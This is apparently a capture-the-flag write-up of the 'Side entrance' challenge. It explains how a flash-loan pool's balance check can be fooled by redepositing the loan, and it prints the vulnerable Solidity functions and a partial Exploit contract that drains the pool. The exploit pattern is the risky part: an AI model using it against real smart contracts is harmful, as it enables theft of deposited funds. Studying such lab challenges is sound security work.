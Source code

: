 
## 4. Side entrance
```
A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system.

Yoy start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.
```

The `SideEntranceLenderPool` is another flash loan pool with bad accounting. Take a look at the following functions, `flashLoan` and `deposit`.

```solidity
    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```

`flashLoan` determines whether you paid it back by comparing its _total_ account balance before and after. Meanwhile, it determines _your account's_ balance via an internal acccounting variable, `balances`. The exploit exists in the slack between the two. `deposit` is a `payable` function and uses `msg.value` directly. This means you have to pay in the basechain token, ETH. When you pay `deposit`, it adds it to the pool's balance while simultaneously adding to the accounting.

Here's the idea:
1. Take a flash loan for everything in the pool
2. In your `execute` function, deposit it all into your account
3. When `flashLoan` is returned to from your function, the balances will match
4. Withdraw everything from the pool

<br>

```solidity
contract Exploit {
    uint256 constant ETHER_IN_POOL = 1000e18;
    SideEntranceLenderPool pool;
    address recip;

    constructor(SideEntranceLenderPool _pool, address _recip) {
        pool  = _pool;
        recip = _recip;
    }

    receive() external payable{}

    function win() external {
        pool.flashLoan(ETHER_IN_POOL);
        pool.withdraw();
        payable(recip).transfer(address(this).balance);
    }

```